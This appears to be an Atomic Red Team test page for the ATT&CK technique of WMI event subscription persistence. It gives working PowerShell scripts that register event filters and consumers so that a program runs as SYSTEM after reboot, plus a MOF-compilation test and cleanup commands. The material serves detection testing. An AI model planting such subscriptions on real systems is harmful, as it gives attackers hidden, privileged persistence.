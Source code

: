 # T1546.003 - Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/003)
<blockquote>Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime.(Citation: Mandiant M-Trends 2015)

Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system.(Citation: FireEye WMI SANS 2015)(Citation: FireEye WMI 2015) Adversaries may also compile WMI scripts into Windows Management Object (MOF) files (.mof extension) that can be used to create a malicious subscription.(Citation: Dell WMI Persistence)(Citation: Microsoft MOF May 2018)

WMI subscription execution is proxied by the WMI Provider Host process (WmiPrvSe.exe) and thus may result in elevated SYSTEM privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer](#atomic-test-1---persistence-via-wmi-event-subscription---commandlineeventconsumer)

- [Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer](#atomic-test-2---persistence-via-wmi-event-subscription---activescripteventconsumer)

- [Atomic Test #3 - Windows MOFComp.exe Load MOF File](#atomic-test-3---windows-mofcompexe-load-mof-file)


<br/>

## Atomic Test #1 - Persistence via WMI Event Subscription - CommandLineEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows


**auto_generated_guid:** 3c64f177-28e2-49eb-a799-d767b24dd1e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #2 - Persistence via WMI Event Subscription - ActiveScriptEventConsumer
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mgreen27/ef726db0baac5623dc7f76bfa0fc494c

**Supported Platforms:** Windows


**auto_generated_guid:** fecd0dfd-fb55-45fa-a10b-6250272d0832






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example';
                ScriptingEngine='VBScript';
                ScriptText='
                Set objws = CreateObject("Wscript.Shell")
                objws.Run "notepad.exe", 0, True
                '}
$Consumer=Set-WmiInstance -Namespace "root\subscription" -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = $Filter;
Consumer = $Consumer;
}
$FilterToConsumerBinding = Set-WmiInstance -Namespace 'root/subscription' -Class '__FilterToConsumerBinding' -Arguments $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-ActiveScriptEventConsumer-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
<br/>

## Atomic Test #3 - Windows MOFComp.exe Load MOF File
The following Atomic will utilize MOFComp.exe to load a local MOF file.
The Managed Object Format (MOF) compiler parses a file containing MOF statements and adds the classes and class instances defined in the file to the WMI repository. 
To query for the class:  gwmi __eventfilter -namespace root\subscription
A successful execution will add the class to WMI root namespace.
Reference: https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/.

**Supported Platforms:** Windows


**auto_generated_guid:** 29786d7e-8916-4de6-9c55-be7b093b2706





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mofcomp_path | Location of mofcomp.exe | String | c:&#92;windows&#92;system32&#92;wbem&#92;mofcomp.exe|
| mof_file | Local location MOF file | String | PathToAtomicsFolder&#92;T1546.003&#92;src&#92;T1546.003.mof|


#### Attack Commands: Run with `powershell`! 


```powershell
#{mofcomp_path} #{mof_file}
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam_consumer'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam_filter'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```



#### Dependencies:  Run with `powershell`!
##### Description: MofComp.exe must exist on disk at specified location (#{mofcomp_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mofcomp_path}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Validate MOFComp.exe is on disk somewhere and update input argument.
```
##### Description: MofComp.exe must exist on disk at specified location (#{mof_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mof_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{mof_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.003/src/T1546.003.mof" -OutFile "#{mof_file}"
```




<br/>
